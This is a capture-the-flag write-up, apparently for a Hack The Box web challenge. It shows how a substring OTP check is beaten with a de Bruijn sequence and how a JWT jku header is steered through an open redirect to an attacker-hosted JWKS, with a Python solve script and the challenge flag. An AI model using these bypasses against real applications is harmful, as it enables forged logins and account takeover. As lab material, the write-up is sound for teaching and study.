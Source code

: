 ```yaml
---
ai_date: '2025-04-27 05:17:12'
ai_summary: Bypassed OTP validation with de Bruijn sequence and manipulated JWT's
  jku field for key substitution.
ai_tags:
- otp-bypass
- jku-bypass
- rsa
created: 2024-12-13T15:53
points: 900
updated: 2024-12-15T17:06
---
```


Fun OTP bypass + JKU bypass. Signing JWTs with our own private keys.
## OTP Bypass

Nice hints from the author.

```js [challenge/server/middleware/otpMiddleware.js]
// TODO: Is this secure enough?
if (!otp.includes(validOtp)) {
    reply.status(401).send({ error: 'Invalid OTP.' });
    return;
}
```

Well, how are the OTPs generated?

```js
export const generateOtp = () => {
  return Math.floor(1000 + Math.random() * 9000).toString();
};
```

They seem to be just 4 digit numbers.

Now there are different ways to make a string contain all possible 4 digit numbers.

But I'll be using [de Bruijn sequence - Wikipedia](https://en.wikipedia.org/wiki/De_Bruijn_sequence) to generate a sequence that is not 36000 characters long, (even though it contains `0XXX` which isn't needed but whatever).

```python
def de_bruijn(k: Iterable[str] | int, n: int) -> str:
    alphabet = k
    k = len(k)
    a = [0] * k * n
    sequence = []

    def db(t, p):
        if t > n:
            if n % p == 0:
                sequence.extend(a[1: p + 1])
        else:
            a[t] = a[t - p]
            db(t + 1, p)
            for j in range(a[t - p] + 1, k):
                a[t] = j
                db(t + 1, t)
    db(1, 1)
    payload = "".join(alphabet[i] for i in sequence)
    return payload + payload[:n-1]
```

## JKU URL Bypass

Public keys are at `/.well-known/jwks.json`, and it is the `jku` field in the jwt header.

Changing it allows us to sign JWTs using our own private key, and the server will use our own public key to validate.

```js
// TODO: is this secure enough?
if (!jku.startsWith('http://127.0.0.1:1337/')) {
    throw new Error('Invalid token: jku claim does not start with http://127.0.0.1:1337/');
}
```

However the `jku` header is validated to must start with `http://127.0.0.1:1337/`.

How do we bypass this? Normal url injections like `@` would fail due to the presence of `/`.

Perhaps a redirect? Searching `redirect` gave me the answer, thank you author for all the hints.

This is the end point `http://127.0.0.1:1337/api/analytics/redirect?`

```js [challenge/server/routes/analytics.js]
fastify.get('/redirect', async (req, reply) => {
    const { url, ref } = req.query;

    if (!url || !ref) {
        return reply.status(400).send({ error: 'Missing URL or ref parameter' });
    }
    // TODO: Should we restrict the URLs we redirect users to?
    try {
        await trackClick(ref, decodeURIComponent(url));
        reply.header('Location', decodeURIComponent(url)).status(302).send();
    } catch (error) {
        console.error('[Analytics] Error during redirect:', error.message);
        reply.status(500).send({ error: 'Failed to track analytics data.' });
    }
});
```

## Solve

Combining them together we have the solve script!

Thank you author for making a solve script template!

```python [wrapper.py]
import requests
import datetime
import os
import jwt
from de_bruijn import de_bruijn

import json
from jwcrypto import jwk
from server import serve_file
from urllib.parse import urlencode

HOST = "http://94.237.48.253:46382"
FINANCIAL_EMAIL = 'financial-controller@frontier-board.htb'
COIN_SYMBOL = 'CLCR'
jku_url = f"http://127.0.0.1:1337/api/analytics/redirect?{urlencode({'ref': 'w', 'url': "https://1337.yun.ng/.well-known/jwks.json"})}"

kid = requests.get(f"{HOST}/.well-known/jwks.json").json()['keys'][0]['kid']
key = jwk.JWK.generate(kty='RSA', size=2048, alg='RS256', use='sig', kid=kid)
public_key = key.export_public()
stop = serve_file(json.dumps({'keys': [json.loads(public_key)]}).encode(), 1337, "application/json")
priv_key = key.export_to_pem(private_key=True, password=None)
otp = de_bruijn('0123456789', 4)

# ... THE ORIGINAL WRAPPER.PY...

stop()
```

```flag
HTB{rugg3d_pu11ed_c0nqu3r3d_d14m0nd_h4nd5_3dec65ba00edba8257236d8dffcf5c68}
```

Really loved the challenge!
